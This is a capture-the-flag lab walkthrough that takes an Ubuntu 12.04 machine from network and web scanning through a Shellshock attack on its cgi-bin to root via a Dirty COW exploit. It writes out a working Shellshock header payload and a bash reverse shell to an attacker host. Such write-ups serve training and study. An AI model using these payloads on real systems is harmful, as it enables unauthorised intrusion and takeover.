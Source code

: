 ## Enumeration

Machine IP &rarr; `192.168.101.87`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.101.87`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                    |
| -------- | ----------- | ------------------------------------------------------------- |
| 22       | SSH         | OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.2.22 ((Ubuntu))                                |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.101.87 -f -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- index.html
- cgi-bin/ (403)
- icons/ (403)
- doc/ (403)

## Exploitation

The `cgi-bin/` directory looked suspicious. Generally in the past, cgi-bins used to be executed by bash directly and were vulnerable to shellshock. There is however a 403 on the directory. Running it through gobuster again tells the existence of `test` under that directory. Navigating to it shows that it is the default cgi-bin for the server.

The test for vulnerability for shellshock can be done as follows &rarr; `curl -H "My-Header: () { :; }; echo; /usr/bin/id" http://192.168.101.87/cgi-bin/test`. If this returns a valid result, then the server is vulnerable.

It was found that the server was in fact vulnerable. Therefore, used this as an RCE to get a reverse shell using the following payload &rarr; `/bin/bash -i >& /dev/tcp/192.168.49.101/3002 0>&1`.

This gave a shell as the user `www-data` and subsequently the user flag.

## Privilege Escalation

Looked at the kernel version which is 3.2.0-23-generic. This is very outdated. The OS version is Ubuntu 12.04. The machine is also 64 bit. Looking at results of searchsploit, dirty cow is an exploit that would fit the scenario.

There are 4 kinds of dirty cow, the one used for this machine is `'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd method)`. Compiling the exploit and sending the binary via wget allows setting a new user with root permissions.
